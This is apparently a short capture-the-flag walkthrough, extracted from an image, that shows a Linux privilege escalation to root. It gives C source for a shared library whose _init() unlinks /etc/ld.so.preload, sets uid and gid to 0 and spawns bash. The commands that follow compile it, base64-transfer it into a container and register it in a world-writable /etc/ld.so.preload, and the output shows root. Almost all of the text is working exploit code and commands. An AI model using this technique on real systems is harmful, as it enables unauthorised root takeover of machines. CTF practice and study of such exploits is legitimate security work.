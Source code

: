 evil$ cat pe.c 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
```
void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
evil$ gcc -fPIC -shared -o pe.so pe.c -nostartfiles
evil$ tar czf pe.tar.gz pe.so
evil$ cat pe.tar.gz | base64 -w0

//transfer file to docker

ctf$ echo "<BASE64_CONTENT>" | base64 -d > /tmp/pe.tar.gz
ctf$ tar -xvf /tmp/pe.tar.gz
ctf$ umask 000
ctf$ touch /etc/ld.so.preload
ctf$ echo "/tmp/pe.so" >> /etc/ld.so.preload
ctf$ touch
ctf# id
uid=0(root) gid=0(root) groups=0(root)